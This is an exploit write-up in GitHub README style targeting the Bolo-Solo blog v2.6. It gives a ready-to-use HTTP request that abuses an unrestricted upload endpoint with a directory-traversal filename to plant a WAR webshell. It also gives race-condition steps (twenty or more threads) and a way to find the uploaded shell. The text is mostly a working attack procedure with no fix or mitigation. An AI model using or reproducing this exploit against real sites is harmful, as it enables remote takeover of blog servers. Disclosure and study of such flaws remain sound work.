 # bolo-solo getshell

## Open source address：
https://github.com/adlered/bolo-solo

## version：
Bolo 菠萝博客 稳定版 v2.6

## code：
The code here can directly upload files without limiting the file type to be uploaded or the file type in the compressed package, and the file path is not processed correctly. Therefore, directory traversal, file upload, and conditional competition can be used to prevent getshell
![img](image.png)


## pocs
HTTP Request Packet:  
```
POST /bolo/import/markdown HTTP/1.1
Host: 192.168.211.1:8080
Accept: application/json, text/javascript, */*; q=0.01
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 809
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarypHuzSQwGehobNokU
Cookie: skin=bolo-nijigen; visited=%5B%22%2Fbolo%22%5D; solo=35b9c941bc81bd3d8500b24594fe3f4f93359aa77c3e09e3e0ca656633d077f79c14626191672324eb2507983b6df5365658b242772607cd3890f5f9aec1c667e2c3f4a107b1575b3dc5c31bf9e9d2744
Origin: http://192.168.211.1:8080
Referer: http://192.168.211.1:8080/bolo/admin-index.do
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
X-Requested-With: XMLHttpRequest

------WebKitFormBoundarypHuzSQwGehobNokU
Content-Disposition: form-data; name="file"; filename="/../../{{x(user_top10)}}.war"
Content-Type: application/octet-stream

{{file(C:\Users\test\Desktop\test.war)}}
------WebKitFormBoundarypHuzSQwGehobNokU--

```

After logging in, replace the Cookie field in the HTTP packet, then capture the '/bolo/import/markdown' path packet, and replace the '{{x (user_top10)}}' field with any ten file names. Package the webshell file into a large root directory of the war package, replace {{file (C: Users test Desktop test. war)} with the content of the war package, and send the above HTTP data package with high concurrency through multiple threads (at least twenty threads). Based on the generated ten file names, concatenate directories and webshell files, and batch request to try to find if the webshell was successfully uploaded.

**ps:This method has some uncertainty due to conditional competition and requires multiple attempts**
